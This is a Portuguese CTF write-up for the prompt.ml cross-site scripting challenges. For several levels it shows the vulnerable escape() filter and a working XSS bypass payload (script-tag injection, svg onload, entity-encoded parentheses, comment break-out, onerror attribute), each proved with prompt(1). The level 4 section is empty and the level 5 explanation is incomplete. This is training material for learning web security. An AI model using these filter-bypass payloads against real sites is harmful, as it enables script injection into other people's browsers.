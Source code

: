 # Cross-site scripting (XSS) 
###### Solved by @Mayaracar2
> This is a CTF about JavaScript analysis, xss script
## Desafio: Prompt.ml
### Sobre o desafio:
O prompt.ml é uma série de desafios de XSS (Cross-Site Scripting) organizada em níveis, cada um apresentando uma função escape() diferente que impõe filtros específicos na entrada do usuário, e tem como objetivo explorar vulnerabilidades para conseguir rodar código JavaScript, usando o prompt(1) como prova de que o XSS foi bem sucedido.
- [Página do desafio](https://prompt.ml/0)
  
## Soluções:
### Fase 0
Este é o código dado:

```bash
 function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}        
```
Este código é uma função que tem como objetivo criar uma string HTML contendo um elemento de input, porém o input é inserido diretamente no HTML sem escapar caracteres perigosos como `>`, `<script>`, entre outros, o que permite que um atacante quebre o atributo `value` e injete código arbitrário.

Para explorarmos essa vulnerabilidade usaremos:

```bash
"><script>prompt(1)</script>`
```

Por que funciona?

-Fecha o atributo value usando `>`, escapando do contexto onde o conteúdo deveria ser tratado apenas como texto.

-Em seguida, ele insere uma tag `<script>`, que o navegador reconhece e executa como código JavaScript, visto que a função não realiza nenhum filtro ou escape dos caracteres especiais (<, >, "), o navegador interpreta a injeção como parte do HTML, em vez de simples texto, permitindo a execução do script malicioso.

### Fase 1
Este é o código dado:

```bash
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}         
```
Neste código, a função recebe um input e remove todas as tags HTML usando uma expressão regular (stripTagsRE).

Para explorarmos essa vulnerabilidade usaremos:

```bash
<svg/onload=prompt(1)
```

Por que funciona?

`<svg/`: A regex falha em detectá-lo como tag devido à sua sintaxe incomum, porém passa "ileso".

`onload=prompt(1)`: Atributo de evento JavaScript que é disparado, executando o prompt(1).

### Fase 2
Este é o código dado:

```bash
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}        
```

Nesse código, tem uma função de escape que remove caracteres específicos como `(=` e `()` de uma string de entrada.

Para explorarmos essa vulnerabilidade usaremos:

```bash
<svg><script>prompt&#40;1)</script>
```

Por que funciona?

`<svg>`: Utilizado como uma "camuflagem", na qual a tag é permitida pelo navegador, ativando o modo SVG e dentro dele, é possivel rodar o <script> normalmente.

`prompt&#40;1)`: O `&#40;` é decodificado pelo navegador como ( , com base no  [HTML entities](https://www.freeformatter.com/html-entities.html).

### Fase 3
Este é o código dado:

```bash
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}        
```
Nesse código, a função de escape adiciona o input dentro de um comentário HTML, evitando a execução de scripts maliciosos, substituindo `->`por `_`.

Para explorarmos essa vulnerabilidade usaremos:

```bash
--!><svg onload=prompt(1)
```

Por que funciona?

`--!>`: Como o código não aceita ->, é preciso fechar o comentário para depois o payload ser executado.

### Fase 4
Este é o código dado:

```bash

       
```
Para explorarmos essa vulnerabilidade usaremos:

```bash

```

Por que funciona?

### Fase 5
Este é o código dado:

```bash
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}            
```
Este código, impede de gerar tags devido o bloqueio do `>`, bloqueia também qualquer atributo de evento como o anload=, onclick=, onerror=, devido o `on.+?`, além de bloquear a palavra `focus`.

Para explorarmos essa vulnerabilidade usaremos:

```bash
"type=image src onerror
="prompt(1)
```

Por que funciona?


&#112; → p

&#114; → r

&#111; → o

&#109; → m

&#112; → p

&#116; → t

&#40; → (

&#49; → 1

&#41; → )
